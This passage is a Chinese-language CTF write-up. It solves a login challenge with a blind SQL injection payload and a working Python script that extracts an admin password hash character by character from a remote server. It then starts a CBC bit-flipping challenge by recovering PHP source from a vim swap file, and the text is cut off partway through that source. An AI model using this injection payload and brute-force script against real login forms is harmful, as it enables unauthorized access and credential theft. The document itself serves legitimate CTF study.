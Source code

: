 猜测字段名:password,pass,pwd

=admin'&&ascii(mid((select(password)from(admin))from(1)))#

字段名为password



盲注脚本跑起来

```python
import requests
def judge(index,guess):
    username="admin'&&ascii(mid((select(password)from(admin))from(index)))<>guess#"
    url='http://123.206.31.85:49167/index.php'
    rusername=username.replace('index',str(index)).replace('guess',str(guess))
    result=requests.post(url,data={'username':rusername,'password':'123456'}).text
    if 'password error!' in result:
        print('第'+str(index)+'个字符不是'+chr(guess))
        return 0
    print('第'+str(index)+'个字符是'+chr(guess))
    return 1

result=''
index=1
while 1:
    alpha=0
    
    for i in range(32,128):
        if judge(index,i):
            alpha=i
            result+=chr(i)
            break
    if alpha==0:
        print('爆破完成:'+result)
        break
    index+=1

```

得到:51b7a76d51e70b419f60d3473fb6f900

这个是md5加密后的,解密得到skctf123456

flag: SKCTF{b1iNd_SQL_iNJEcti0n!}

### login 4

cbc字节翻转攻击



根据别人的wp,发现vim不正常退出产生的文件.index.php.swp,`vim -r` 获得源码

```php
<?php
define("SECRET_KEY", file_get_contents('/root/key'));
define("METHOD", "aes-128-cbc");
session_start();

function get_random_iv(){
    $random_iv='';
    for($i=0;$i<16;$i++){
        $random_iv.=chr(rand(1,255));
    }
    return $random_iv;
}

function login($info){
    $iv = get_random_iv();
```